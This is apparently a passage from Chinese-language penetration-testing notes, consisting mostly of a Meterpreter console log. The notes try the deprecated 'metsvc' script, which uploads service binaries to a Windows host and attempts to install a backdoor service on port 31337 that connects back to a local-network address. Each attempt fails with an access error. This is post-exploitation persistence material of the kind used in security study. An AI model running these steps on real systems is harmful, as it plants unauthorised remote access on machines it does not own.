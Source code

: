 ## metsvc

利用失败，提示 `deprecated` 不推荐使用；

```
meterpreter > run metsvc -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service (files must be deleted manually)

meterpreter > run metsvc

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\HLDIkkGKSJ...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
	Cannot open service manager (0x00000005)

meterpreter > run metsvc -A

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\kcpFjUBMraKZ...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
	Cannot open service manager (0x00000005)

[*] Trying to connect to the Meterpreter service at 192.168.43.103:31337...
meterpreter > run metsvc -A

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\EStXBGaPCbHz...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
	Cannot open service manager (0x00000005)

[*] Trying to connect to the Meterpreter service at 192.168.43.103:31337...
```


[Go0s]: ~ 